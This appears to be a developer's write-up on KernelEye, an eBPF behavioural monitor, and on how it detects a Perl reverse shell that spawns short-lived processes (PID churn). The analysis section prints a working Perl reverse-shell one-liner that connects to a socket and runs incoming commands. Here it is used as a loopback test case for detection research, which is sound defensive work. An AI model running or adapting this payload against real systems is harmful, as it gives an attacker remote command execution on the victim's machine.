






# Silent Reverse Shells and PID Churn: Detection Boundaries in eBPF-Based Behavioral Monitoring

While developing KernelEye, I observed something unexpected during reverse shell testing.

At first glance, the process tree looked completely normal.

But when I started inspecting execution at runtime, I noticed something unusual:  
- each user command was being executed by a **new short-lived process**, rather than a stable interactive shell.

To visualize this behavior, I captured the process lifecycle during execution:



What stood out immediately was this pattern:

- A single Perl-based controller process establishes a connection
- After that, each command triggers a fresh `system()` execution
- This results in a continuous stream of short-lived PIDs
- Most of these processes vanish too quickly to appear in traditional process tree views

In practice, this creates what can be described as a **PID churn pattern** — where process identity constantly changes while the underlying session remains the same.

From a monitoring perspective, this behavior introduces an interesting challenge:

The system is active, but the process structure is unstable.

---

## 1. Analyse the payload

payload

```perl
perl -MIO::Socket::INET -e '$p=fork; exit if($p); $c=new IO::Socket::INET(PeerAddr,"127.0.0.1:4444"); STDIN->fdopen($c,r); $~->fdopen($c,w); system $_ while <>;'
````

### 1.1 Interesting parts

* It creates a child process using `fork()`
* The parent process exits immediately, so only the child continues running
* The child connects to a remote socket (`127.0.0.1:4444`)
* It redirects input and output (STDIN and STDOUT) to the socket
* After that, it waits for commands and executes them using `system()`

#### Simple explanation

This payload turns the process into a remote command executor.

After the connection is established:

* whatever comes from the socket is treated as a command
* each command is executed separately
* output is sent back through the same connection

So instead of a normal shell, it behaves like a hidden command runner that executes instructions one by one.

---

### 1.2 What we observed using strace

To understand how the payload behaves at system call level, we traced it using `strace`.



#### Key observations

At the beginning, we clearly see normal program startup behavior:

* The Perl interpreter starts using `execve`
* It loads required system libraries
* It opens multiple files needed for execution (libc, locale, Perl modules)

After that:

* The program forks a child process
* The child continues execution
* It loads `IO::Socket::INET` and other Perl dependencies
* Standard file descriptors (STDIN, STDOUT, STDERR) are prepared

#### Important insight

After the initial setup phase:

* There are no continuous system calls related to command execution
* The process becomes mostly silent from a syscall perspective
* `strace` does not clearly show each executed command

#### Why this matters

This is important because:

* The real reverse shell behavior happens after setup
* But `strace` mainly captures only the initialization phase
* Command execution becomes hidden inside short-lived processes created by `system()`

So even though the process is active, syscall-level tracing becomes insufficient to observe full behavior.

---

### 1.3 Network visibility

To understand runtime network behavior, we inspected active connections using `ss -tp`.



From `ss -tp`, we can clearly see an active reverse shell connection between the listener (nc) and the Perl process. The Perl process has its standard input, output, and error redirected to the same socket, meaning it is fully controlled through the network connection. We also notice a `CLOSE-WAIT` state where a Bash process appears alongside Perl, showing that command execution has already occurred while the connection is still alive. This proves that even when no commands are actively running, the reverse shell session remains silently active at the socket level.

---

## 2. How KernelEye sees this before command execution

Before any command is executed, KernelEye already starts building context from system-level behavior.



To solve this, we use a bitmask flag system defined in `common/common_syscalls.h`.



So we can decode what we saw before command execution.

* First, it sees `0x0` and assigns Stage 0
* Then it detects `0x8000`, but still remains at Stage 0

---

### 2.1 Decoding 0x8000

Convert hex to binary (e.g. `rax2 Bx8000`):

```
0x8000 = 1000000000000000b
```

This means the 16th bit is enabled.

So from the bitmask list:

* `FORK_SEEN` → fork syscall was triggered

---

### 2.2 Simple meaning

At this point:

* A process was created using `fork()`
* KernelEye detects early behavioral activity
* But no network or command execution behavior is visible yet

So the system still considers it:

> normal execution flow (Stage 0)

Even though it is already part of a potential reverse shell setup.

---

## 3. How KernelEye sees this after command execution

Now the scenario changes completely.



Once the attacker starts executing commands, KernelEye detects a strong behavioral pattern.

At this point:

* Flags: `0x8917`
* Stage: `30 (HIGH_RISK)`

---

### 3.1 Decoding 0x8917

Convert hex to binary:

```
0x8917 = 1000100100010111b
```

---

### 3.2 Decoded flags

From the bitmask list, this corresponds to:

* `SOCKET_SEEN`
* `LOOPBACK_IPV4_SEEN`
* `CONNECT_SEEN`
* `SUSPICIOUS_PORT_SEEN`
* `DUP2_SEEN`
* `FD_REDIRECTS_SEEN`
* `FORK_SEEN`

---

### 3.3 What this means

At this stage:

* The reverse shell is no longer idle
* The connection is actively used for command execution
* File descriptors are redirected to the socket
* Multiple suspicious behaviors occur together

---

### Important insight

During idle time, this process may look normal or low-risk.

But once execution starts:

* KernelEye correlates all previous behavior
* Flags are combined into a full behavioral pattern
* The stage is upgraded to HIGH_RISK (30)

---

### 3.4 Detection behavior

KernelEye uses multiple kernel probes (around 10 hooks) to build a full behavioral view of the system.

For command execution:

* First, a `kprobe` on `execve` is triggered (early visibility)
* Then the LSM hook (`bprm_check_security`) is executed (decision point)

So the detection pipeline is not based on a single event, but a sequence of correlated checks.

---

### Important clarification

* `execve kprobe` → observation layer (context building)
* `bprm_check_security` → decision layer (allow/block)

Between these two stages, KernelEye analyzes:

* CID (context ID)
* accumulated bitmask flags
* behavioral history of the process

---

### Key insight

Even if the reverse shell stays idle, once execution begins:

* KernelEye captures `execve` early
* Evaluates full behavioral context before decision
* Enables detection based on relationships, not single syscalls

---

## 4. Conclusion

During KernelEye development, we observed that reverse shells can exist in a silent state without strong execution signals. In this phase, the system is already connected and partially compromised, but it does not immediately appear suspicious from a traditional process or syscall perspective.

The real detection becomes clear only during execution, where multiple behavioral signals combine (socket activity, FD redirection, fork/exec patterns, and interpreter usage).

This study highlights an important idea:

* Single events like `execve` or `fork` are not enough for detection
* Behavior must be analyzed over time using multiple kernel signals
* Process visibility alone is unreliable due to short-lived execution patterns (PID churn)

KernelEye addresses this by combining multiple kernel probes and building behavioral context before making a decision in LSM.

This work is still under development (v2 is not complete yet), but it already demonstrates that detection is more effective when focused on behavior and relationships between events, rather than isolated system calls.

### Note

This system is still under active development, so detection logic, probes, and scoring rules are continuously evolving. You can explore the current implementation in the `develop` branch of the repository.
